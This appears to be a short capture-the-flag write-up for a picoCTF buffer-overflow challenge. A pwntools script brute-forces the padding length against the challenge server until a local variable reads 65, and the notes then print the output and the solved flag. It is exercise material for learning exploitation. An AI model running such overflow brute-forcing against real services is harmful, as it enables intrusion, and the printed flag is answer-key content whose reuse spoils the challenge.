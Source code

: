 ```yaml
---
ai_date: '2025-04-27 05:29:46'
ai_summary: 'Brute-forced integer overflow with padding; found flag: picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}'
ai_tags:
- overflow
- brute-force
- padding
created: 2024-08-08T02:36
updated: 2024-11-16T19:43
---
```


Brute force the overflow.

```python
from pwn import *
context.log_level = 'error'
# nc saturn.picoctf.net 57660
for i in range(100):
    r = remote('saturn.picoctf.net', 57660)
    r.sendlineafter(b': ', b'a'*i+p32(65))
    print(i, r.recvall())
    r.close()
```

```
23 b'\nnum is 0\nBye!\n'
24 b'\nnum is 65\nYou win!\npicoCTF{l0c4l5_1n_5c0p3_7bd3fee1}\n'
25 b'\nnum is 16737\nBye!\n'
```

Huh, it is not 16.
Maybe there is some padding?

```flag
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
```